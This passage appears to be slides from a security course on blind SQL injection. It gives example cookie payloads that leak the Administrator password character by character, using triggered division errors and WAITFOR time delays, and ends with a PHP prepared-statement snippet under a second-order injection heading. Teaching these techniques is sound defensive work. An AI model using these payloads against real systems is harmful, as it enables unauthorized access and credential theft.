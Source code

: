 ## Blind SQL injection - inducing conditional responses by triggering SQL errors

```
Cookie: TrackingId=xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

```
SELECT TrackingId FROM TrackedUsers WHERE TrackingId='xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) = 'm') THEN 1/0 ELSE 'a' END FROM Users)='a'
```

---

## Blind SQL injection - time delays

What if the application catches database errors and handles them gracefully?

----

## Blind SQL injection - time delays

```
Cookie: TrackingId=xyz'; IF (1=1) WAITFOR DELAY '0:0:10'--
Cookie: TrackingId=xyz'; IF (1=2) WAITFOR DELAY '0:0:10'--
```

----

## Blind SQL injection - time delays

```
Cookie: TrackingId=xyz'; IF (SELECT COUNT(username) FROM Users WHERE username = 'Administrator' AND SUBSTRING(password, 1, 1) = 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```
---

## Second Order SQL Injection

```
$sql = "INSERT INTO user (username, password)  VALUES (:username, :password)";
$data = [
        'username' => $userName,
        'password' => $password,
        'first_name' => $firstName,
        'second_name' => $secondName
        ];
$stmt = $conn->prepare($sql);
$stmt->execute($data);
```

----
